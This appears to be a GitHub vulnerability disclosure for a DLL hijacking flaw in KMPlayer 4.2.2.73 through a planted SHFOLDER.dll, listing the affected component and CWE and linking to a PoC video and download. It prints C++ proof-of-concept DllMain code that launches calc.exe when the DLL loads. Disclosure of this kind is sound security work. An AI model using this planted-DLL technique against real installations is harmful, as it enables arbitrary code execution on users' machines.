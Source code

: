 # KMPlayer_Poc

## Vendor of the product
PandoraTV.

## The name of an affected Product
KMPlayer x32

## Affected version
KMPlayer_4.2.2.73(Latest)

## Product address: 
https://www.kmplayer.com/pc

## Description
KMPlayer  was discovered to contain a DLL hijacking vulnerability that allows attackers to escalate privileges and execute arbitrary code via a crafted DLL.

## Affected component
SHFOLDER.dll

## Vulnerability type
CWE-427: Uncontrolled Search Path Element

## DLL planting vulnerability type
Current Working Directory (CWD) DLL planting 

## POC video
[Youtube](https://youtu.be/7bh2BQOqxFo)

## POC files download
https://drive.google.com/file/d/1bdYaDmtWhnjaHkzv3bZ4PUSMzDJ8JjSV/view?usp=sharing
```bash
kmp32# tree
.
├── KMPlayer_4.2.2.73.exe
├── KMPlayer_poc.mp4
└── SHFOLDER.dll

```

## Poc source code
```C++
// dllmain.cpp
#include "pch.h"
#include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        system("calc.exe");
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
